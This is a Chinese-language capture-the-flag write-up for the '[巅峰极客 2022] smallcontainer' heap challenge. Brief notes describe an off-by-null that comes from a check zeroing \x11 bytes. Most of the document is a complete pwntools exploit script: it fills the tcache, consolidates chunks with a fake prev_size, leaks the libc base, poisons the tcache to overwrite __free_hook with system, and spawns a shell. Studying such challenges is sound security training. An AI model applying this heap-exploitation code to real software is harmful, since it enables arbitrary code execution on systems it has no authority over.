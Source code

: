 # [巅峰极客 2022]smallcontainer

从题目上来说这是一个2.27-3ubuntu1.5_amd64 的版本的libc，从题目上可以知道我们的保护是全开的

但是我们在这里的保护其实可以不用特别的去关心

![image-20250418165716630](./../images/image-20250418165716630.png)

![image-20250418165751660](../images/image-20250418165751660.png)

![image-20250418170627519](../images/image-20250418170627519.png)

![image-20250418170639702](../images/image-20250418170639702.png)

![image-20250418170655274](..\images\image-20250418170655274.png)

上面的截图都是在多个函数这些函数点我们可以明白一个方向就是他最大只能写17个chunk，并且大小要大于0xff小于0x3ff，同时在edit模块中发现了check函数这里可以知道当堆块中出现**\x11**的时候会把这个数据改为0，因此我们可以使用这个方法来构造一个类似于offbynull的方法因此我们可以明确我们的构造手法



```py
from pwn import *
from pwn import u64,u32,p64,p32
# from ae64 import AE64
import requests
#netstat -tuulp

context(arch='amd64',os='linux',log_level='debug')
p = process("/home/fofa/smallcontainer/smallcontainer")
# p =remote("node4.anna.nssctf.cn",28522)
context.log_level='debug'
libc = ELF("/home/fofa/smallcontainer/libc-2.27.so")
elf = ELF("/home/fofa/smallcontainer/smallcontainer")



uu64     = lambda data                  :u64(data.ljust(8, b'\x00'))
leak     = lambda tag, addr             :log.info(tag + " -------------> " + hex(addr))
get_addr = lambda                       :u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))

def get_sb() : return libc_base + libc.sym['system'], libc_base + next(libc.search(b'/bin/sh\x00'))
def debug(point):
    if point == 0:
        gdb.attach(p)
    else:
        gdb.attach(p,point)
r = lambda : p.recv()
rn = lambda x: p.recv(x)
rl = lambda : p.recvline()
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
close = lambda : p.close()
shell = lambda : p.interactive()

# from ctypes import *
# my_libc= cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")

def add(size):
    sla("> ","1")
    sla("size: ",str(size))
def delete(idx):
    sla("> ","2")
    sla("index: ",str(idx))
def edit(idx,c):
    sla("> ","3")
    sla("index: ",str(idx))
    s(c)
def show(idx):
    sla("> ","4")
    sla("index: ",str(idx))
#这里创建四个我们自己使用的堆块
add(0x1f8)#0
add(0x1f8)#1
add(0x1f8)#2
add(0x208)
#覆盖tcache
for i in range(4,11):
    add(0x1f8)
for i in range(4,11):
    delete(i)

#这里修改chunk3的最后一个字节大小的数这里的作用是让我们这里四个chunk会进行一个合并

edit(3,b'\x00'*0x1f0+p64(0)+p64(0x11))


#伪造上面那个chunk合并
edit(2,b'b'*0x1f8)
edit(2,b'b'*0x1f0+p64(0x600))
delete(0)
delete(3)
#成功合并
gdb.attach(p)
pause()

#这里我们获取libc
add(0x200)#0
show(0)
libc_base = int(rn(12),16) - 0x3ec190
leak("libc_base",libc_base)

free_hook = libc_base + libc.sym['__free_hook']
system,binsh = get_sb()
#这里后面就是在把chunk3和0放到一个独立的tcache中是的可以构造一个fd但是由于我们没有free chunk1 因此我们可以直接控制chunk3的fd和bk因此我们完成的构造
add(0x200)#3
delete(0)
delete(3)
edit(1,p64(0) + p64(0x211) + p64(free_hook))
add(0x200)
edit(2,"/bin/sh\x00")
add(0x200)#free_hook  3
edit(3,p64(system))
delete(2)


shell()


```

